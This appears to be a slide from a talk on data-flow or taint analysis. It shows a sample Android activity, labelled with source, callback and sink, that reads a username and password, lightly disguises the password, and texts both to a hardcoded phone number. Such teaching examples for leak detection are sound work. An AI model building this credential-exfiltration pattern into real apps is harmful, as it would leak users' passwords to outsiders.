

# Sample Android Program
public class LeakageApp extends Activity {
    private User user = null ;
    protected void onRestart() {
        EditText usernameText = (EditText)findViewById(R.id.username);
        EditText passwordText = (EditText)findViewById(R.id.pwdString);
        String uname = usernameText.toString();
        String pwd = passwordText.toString ();
        if (!uname.isEmpty() && !pwd.isEmpty())
            this.user = new User(uname, pwd);
    }
    //callback method used in xml files
    public void sendMessage(View view){
        if(user == null)
            return;
        Password pwd = user.getpwd();
        String pwdString = pwd.getPassword();
        String obfPwd = "";
        for (char c:pwdString.toCharArray())
            obfPwd += c + "_";
        String message = "User :" + user.getName() + "| Pwd : " + obfPwd;
        SmsManager sms = SmsManager.getDefault();
        sms.sendTextMessage("+44 020 7321 0905", null, message, null, null);
    }
}
Source

callback

Sink